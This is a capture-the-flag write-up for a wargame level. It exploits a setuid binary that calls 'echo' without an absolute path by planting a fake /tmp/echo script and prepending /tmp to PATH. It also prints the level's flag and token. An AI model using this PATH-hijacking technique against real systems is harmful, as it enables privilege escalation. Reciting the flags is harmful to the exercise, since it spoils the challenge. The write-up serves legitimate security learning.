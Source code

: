 ## FLAG: `kooda2puivaav1idi4f57q8iq`

> ls -l
```
    total 12
    -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

> ltrace ./level03
```
    __libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
    getegid()                                                                                                              = 2003
    geteuid()                                                                                                              = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                    = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                    = 0
    system("/usr/bin/env echo Exploit me"Exploit me
    <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 0
```

## No absolute path for ``echo`` : `system("/usr/bin/env echo Exploit me"Exploit me`
## We can exploit this using our own

> vi /tmp/echo
```
    #!/bin/bash
    /bin/getflag
```
> chmod 777 /tmp/echo
> export PATH="/tmp:$PATH"
> ./level03
```
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
